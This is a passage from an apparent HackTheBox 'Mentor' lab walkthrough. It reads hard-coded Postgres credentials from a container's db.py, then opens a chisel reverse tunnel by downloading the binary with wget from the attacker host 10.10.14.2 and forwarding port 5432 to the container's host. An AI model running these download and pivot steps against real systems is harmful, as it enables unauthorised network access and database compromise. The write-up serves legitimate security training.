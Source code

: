 Looking around the app code we can see a postgres (we also saw that in the SNMP output file):


```python
cat db.py
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")

# SQLAlchemy for quotes
engine = create_engine(DATABASE_URL)
metadata = MetaData()
```

Also we have the password for the Postgres: **postgres:postgres**

Since the script was connecting tom the 172.22.0.1 (the host of the container), we could set up an SSH tunnel with chisel so we can reach that IP/Port. Using _uname -a_ command we get to know that the container is x86_64, so we download the latest binary for the [chisel tool](https://github.com/jpillora/chisel/releases/tag/v1.8.1). Make sure to use the same binary for the server (on our attack box) and the client (on the container in this case), that way we will avoid any strange behaviours.

Once downloaded, run the server:

```bash
./chisel_32 server -p 8000 --reverse
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/mentor/4_1_chisel_server.png" width="90%"/>
</p>


And the client on the remote host. Make sure to set the executable permissions:


```bash
wget http://10.10.14.2:5455/chisel_32
chmod +x chisel_32
./chisel_32 client 10.10.14.2:8000 R:5432:172.22.0.1:5432
```

<p align="center">